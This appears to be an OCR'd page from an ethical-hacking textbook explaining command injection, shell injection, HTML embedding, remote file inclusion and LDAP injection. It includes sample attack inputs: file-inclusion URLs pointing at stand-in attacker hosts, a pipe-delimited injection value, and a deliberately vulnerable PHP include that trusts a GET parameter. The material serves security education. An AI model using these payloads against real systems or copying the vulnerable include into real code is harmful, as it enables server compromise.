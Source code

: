 #### Command Injection Attacks
Command injection flaws allow attackers to pass malicious code to different systems via web applications. The attacks include calls to an operating system over system calls, use of external programs over shell commands, and calls to backend databases over SQL. Scripts in Perl, Python, and other languages execute and insert poorly designed web applications. If a web application uses any type of interpreter, attackers insert malicious code to inflict damage.

▪ Shell Injection
-  An attacker tries to craft an input string to gain shell access to a web server 
- Shell injection functions include system(), StartProcess(), java.lang.Runtime.exec(), System.Diagnostics.Process.Start(), and similar APIs
HTML Embedding 
-  This type of attack is used to deface websites virtually. Using this attack, an attacker adds extra HTML-based content to the vulnerable web application
- In an HTML embedding attack, the user input to a web script is placed into the output HTML without being checked for HTML code or scripting
File Injection 
- The attacker exploits this vulnerability and injects malicious code into system files
	- http://www.certifiedhacker.com/vulnerable.php?COLOR=http://evil/exploit?
Command Injection Example 
- An attacker enters the following malicious code (account number) with a new password. www.certifiedhacker.com/banner.gif||newpassword||1036|60|468
#### File Injection Attack
A file injection attack is a technique used to exploit “dynamic file include” mechanisms in web applications. File injection attacks enable attackers to exploit vulnerable scripts on the server to use a remote file instead of a presumably trusted file from the local file system. It occurs when a user is allowed to supply input for the include command dynamically, which is not properly validated before processing. When a user provides input, the web application passes it into “file include” commands. Most web application frameworks support file inclusion. 

attacker enters a URL that redirects the application to the location of the malicious file. While referring to the file without proper validation, the application executes the file script by calling specific procedures. Web applications are vulnerable to file injection attacks if the referred files are relayed using elements from HTTP requests. PHP is particularly vulnerable to these attacks because of the extensive use of “file includes” in PHP programming and default server configurations.

If the application ends with a php extension, and if a user requests it, then the application interprets it as php script and executes it. This allows an attacker to perform arbitrary commands. Consider the following client code running in a browser:

``<form method="get"> <select name=“DRINK"> <option value=“pepsi">pepsi</option> <option value=“coke">coke</option> </select> <input type="submit"> </form> Vulnerable PHP code: <?php $drink = ‘coke'; if (isset( $_GET[‘DRINK'] ) ) $drink = $_GET[‘DRINK']; require( $drink . '.php' );
?>``
Exploit code: http://www.certifiedhacker.com/orders.php?DRINK=http://jasoneval.com/exploit?


#### LDAP Injection Attacks 
LDAP Directory Services store and organize information based on its attributes. The information is hierarchically organized as a tree of directory entries. The Lightweight Directory Access Protocol (LDAP) is based on the client-server model, and clients can search the directory entries using filters.
